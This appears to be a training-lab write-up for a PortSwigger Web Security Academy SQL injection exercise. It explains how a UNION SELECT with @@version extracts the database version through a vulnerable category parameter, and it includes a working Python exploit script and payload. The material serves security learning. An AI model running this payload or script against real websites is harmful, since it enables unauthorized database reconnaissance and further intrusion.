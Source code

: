 ```yaml
---
title: 'SQLi Lab 4'
description: 'Using UNION-based SQL injection to extract database type and version on MySQL and Microsoft SQL Server.'
---
```



## SQL injection attack, querying the database type and version on MySQL and Microsoft

<div style="text-align: justify;">
  This lab demonstrated how SQL injection vulnerabilities can be exploited to reveal system-level information about the backend database. Specifically, the injection targeted a parameter using a `UNION SELECT` with the `@@version` system variable, which allowed the attacker to retrieve the database version—useful for tailoring further attacks based on the environment (e.g., MySQL vs. Microsoft SQL Server).

  The attack began by analyzing the application's request to the `/filter` endpoint, where the `category` parameter was found vulnerable to injection. By crafting a payload that appended a malicious SQL statement, the server responded with the version string embedded in the page content. This knowledge helps in identifying the DBMS and optimizing payloads for privilege escalation or data extraction.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works

- The `category` parameter is vulnerable to SQL injection.
- A crafted `UNION SELECT` query is used to inject `@@version` into the SQL query.
- The version string (e.g., `MySQL 5.x` or `Microsoft SQL Server`) is returned in the response.
- The script checks for known indicators like the word “ubuntu” to verify success.
- Minor adjustments may be needed depending on the lab environment's output.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    if "ubuntu" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = '\' UNION SELECT @@version, NULL-- -'
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com ' % sys.argv[0])
        sys.exit(-1)    
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")        
```


<Comment />
